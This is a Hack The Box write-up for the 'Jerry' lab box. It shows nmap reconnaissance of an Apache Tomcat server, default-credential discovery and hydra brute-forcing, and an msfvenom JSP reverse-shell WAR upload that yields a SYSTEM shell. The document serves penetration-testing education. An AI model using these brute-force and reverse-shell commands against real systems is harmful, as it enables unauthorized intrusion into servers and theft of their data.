 ```yaml
---
title: HTB:Jerry
date: 2025-09-28 04:01 +0000
categories: [Write Ups, Boxes]
tags: [red-team-pathway difficulty:easy]     # TAG names should always be lowercase
---
```


# Overview: 
Jerry is a very easy box that involves finding an Apache Tomcat server and exploiting **Tomcat Web Application Manager** with weak credentials.
We then upload a malicous `.WAR` file to gain a system reverse shell and access to `user` and `root` flags. 
# **Reconnaissance**:
### Nmap:
We will get started as always with an `nmap` scan. 
```bash
sudo nmap -sC -sV -oA ~/htb/boxes/Jerry/nmap 10.10.10.95
...SNIP...
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

...SNIP...

```
Running `nmap` we see just one port open on `8080`. This port is running an `Apache Tomcat` webserver version:`7.0.88`.

## Web Enumeration:

Navigating over to `10.10.10.95:8080` we get what appears to be a default webpage.

![image.png](assets/img/Jerry/image.png)
_Default install of tomcat_

Poking around on the app, we see that `Server Status`, `Manager App`, `Host Manager` require a `username:password`

![image.png](assets/img/Jerry/image_1.png)

Testing the default credentials of `admin:admin` we gain access to the `Server Status` page. Looking around, there doesn’t seem to be any vector to exploit. 

![image.png](assets/img/Jerry/image_2.png)

Googling around for other default credentials doesn’t seem to net much, but if we observe the `403 - Access Denied` page when attempting to access `Manager App`, we get the following:

![image.png](assets/img/Jerry/image_4.png)
_Suggestion of the `manager` role with the username : password pair of `tomcat:s3cret`_

Trying these credentials, we get access to the *Tomcat Web Application Manager page.* 

![image.png](assets/img/Jerry/image_5.png)

> In most cases (_we hope_) credentials will not be so easily accessible. To circumvent this, we may need to brute-force the password. 
{: .prompt-tip }

### Bruteforcing:

#### Burpsuite:
We notice capturing the request to `http://10.10.10.95:8080/manager/html` that we have the `Authorization` header, which is a `Base64 encoded` value of the `username:password` that is entered. In this case, we don’t get access with value of `admin:admin`.

![image.png](assets/img/Jerry/image_3.png)

Using this knowledge of the request, we are now informed as to where to direct out brute-forcing attempt. 

#### Hydra:

Using hydra, we find the password `tomcat:s3cret`.

```bash
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
#-C FILE   colon separated "login:pass" format

...SNIP...
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret

```


# **Exploitation:**

## Web Exploitation:

In the **Tomcat Web Application Manager,** we see that we can upload and WAR files.

![image.png](assets/img/Jerry/image_6.png)

> A WAR (Web Application Archive) file allows developers to package all the components of a Java-based web application, including code, configuration, and static resources, for deployment on a web server or application server.
{: .prompt-info }


### Creating malicious WAR file:
We use will `msfvenom` to craft an exploit:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=8888 -f war -o upload.war
```
> #### Switches:
- `p java/jsp_shell_reverse_tcp`: Specifies the payload (a reverse shell using Java Server Pages).
- `LHOST=`: Your machine's IP address (for the reverse shell to connect back).
- `LPORT=`: The port on your machine to receive the reverse shell.
- `f war`: Specifies the output format as a WAR file.
- `upload.war`: Output file name.
{: .prompt-info }

### Getting shell:
Navigating to `http://10.10.10.95:8080/upload/`
![image.png](assets/img/Jerry/image_7.png)
_Upload displayed on GUI_


```shell
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
### Flags:
We have shell as system, so `user` and `root` flags are easy to get:
```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,450,171,392 bytes free

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
2 for the price of 1.txt

user.txt
7004dbce...SNIP...

root.txt
04a8b36e...SNIP...

```
